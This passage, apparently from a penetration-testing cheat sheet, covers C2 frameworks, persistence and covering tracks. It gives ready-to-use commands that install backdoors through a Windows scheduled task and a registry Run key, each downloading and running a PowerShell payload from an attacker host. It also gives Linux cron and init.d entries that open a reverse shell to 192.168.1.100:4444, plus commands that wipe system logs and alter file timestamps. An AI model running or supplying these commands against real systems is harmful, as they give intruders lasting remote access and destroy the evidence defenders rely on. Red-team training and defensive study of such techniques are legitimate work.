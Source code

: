 ### C2 (Command and Control) Frameworks
```bash
# Empire
empire

# Covenant
./Covenant
```

### Persistence Techniques
- Windows
  ```bash
  # Scheduled tasks
  schtasks /create /tn "Backdoor" /tr "powershell -c 'IEX (New-Object Net.WebClient).DownloadString(\"http://attacker/payload.ps1\")'" /sc hourly
  
  # Registry autorun
  reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -c 'IEX (New-Object Net.WebClient).DownloadString(\"http://attacker/payload.ps1\")'"
  ```
- Linux
  ```bash
  # Cron jobs
  echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'" | crontab -
  
  # Startup scripts
  echo "bash -c 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1'" > /etc/init.d/backdoor
  chmod +x /etc/init.d/backdoor
  update-rc.d backdoor defaults
  ```

## Covering Tracks (For Testing Purposes)

### Log Manipulation
```bash
# Clear Linux logs
echo "" > /var/log/auth.log
echo "" > /var/log/syslog

# Clear Windows logs
wevtutil cl System
wevtutil cl Security
wevtutil cl Application
```

### Timestamp Manipulation
```bash
# Touch command to modify timestamps
touch -r reference_file target_file
```
